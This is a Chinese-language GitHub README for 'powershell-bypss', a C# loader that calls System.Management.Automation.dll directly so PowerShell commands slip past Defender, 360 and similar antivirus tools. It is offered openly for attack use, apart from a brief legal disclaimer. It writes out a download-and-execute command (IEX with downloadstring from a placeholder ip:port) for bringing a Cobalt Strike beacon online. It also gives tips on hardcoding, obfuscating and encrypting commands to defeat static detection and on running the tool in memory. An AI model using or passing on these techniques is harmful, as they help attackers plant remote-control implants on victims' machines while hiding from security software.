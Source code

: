 # powershell-bypss

powershell命令免杀的小工具，可过Defender、360等，可执行上线cobaltstrike、添加计划任务等。

**请勿使用于任何非法用途，由此产生的后果自行承担。**

**理论上来说可以免杀执行任意powershell命令，但是调用了如schtask这类被监控的程序还是会被查杀的。**

上述测试环境均为实体机。

思路很简单，很久之前就有了，工具调用C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation目录下面的System.Management.Automation.dll执行底层api来绕过杀软对powershell的监控。

尝试过使用base64对命令进行编码，但是好像会被Defender检测，用纯命令反而不会，这里用+加号替换了命令中空格，当然这就是一个命令的加载器，具体怎么加密命令有各种各样的方法。

由于是C#，因此可以用execute-assembly内存执行的方式来不落地执行，不过cs本身的powerpick就实现了这个功能，这里只是单拿出来做一个小工具。

**师傅们注意避免用powershell命令，上线cobaltstrike只需要```Csharp.exe IEX+((new-object+net.webclient).downloadstring('http://ip:port/a'))```裸命令，如果以powershell开头那么还是会调用powershell被360拦截的。**

**这里只是做了个小demo，师傅们可以在demo的基础上来设置自己的命令加密方式，这样可以更有效地避免杀软的静态检测。**

**想单纯来上线cs的师傅可以把IEX开头的powershell命令写定在程序里的myPipeLine.Commands.AddScript参数中，这样免杀效果好一些。**

**免杀上线cs并不是这个工具的初衷，主要是用来规避杀软对powershell的监控，如果想只免杀上线的话尽量把IEX开头的powershell命令写定在程序中，可以尝试做命令的混淆/加密。**

![32430eaf1b8ae7db520dd85e5cc82bf](https://user-images.githubusercontent.com/48757788/198879143-1caaf6d9-2ed9-4894-9233-10ff7aa7ad39.jpg)

![d559a936be1592a0bcbbaff24e88dc8](https://user-images.githubusercontent.com/48757788/198879156-82253c57-ff50-4b21-be0d-d71253db032b.jpg)





